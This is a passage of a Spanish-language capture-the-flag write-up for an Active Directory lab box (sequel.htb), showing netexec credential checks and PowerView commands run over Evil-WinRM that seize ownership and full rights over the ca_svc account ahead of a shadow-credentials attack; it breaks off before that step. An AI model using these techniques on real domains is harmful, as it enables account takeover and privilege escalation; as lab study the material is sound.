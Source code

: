 Comprobacion de la contraseña con netexec:

```
root@kali /home/cangrejo/Escritorio/escapetwo/content # netexec smb sequel.htb -u "ca_svc" -p 'cangrejo123'
SMB         10.129.1.36     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.129.1.36     445    DC01             [+] sequel.htb\ca_svc:cangrejo123
```


![ca_svc.png](Images/ca_svc.png)

### ADCS

![group.png](Images/group.png)

El usuario ca_svc pertenece a un grupo llamado  `CERT PUBLISHERS`, por la descripcion del grupo puede estar configurado el certificate service de AD:

```
Members of this group are permitted to publish certificates to the directory
```

#### Shadow Credentials

Cada cierto tiempo la contraseña del usuario ca_svc se restablecía, a si que preferí obtener el hash NT: 

Vuelvo a importar el modulo de `PowerView.ps1` y cambio el owner a ryan:

```
*Evil-WinRM* PS C:\Users\ryan\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainObjectOwner -Identity ca_svc -OwnerIdentity ryan
*Evil-WinRM* PS C:\Users\ryan\Documents> Add-DomainObjectAcl -TargetIdentity ca_svc -Rights All -PrincipalIdentity ryan
```

Con `certipy-ad shadow` obtengo el hash NT del usuario ca_svc:
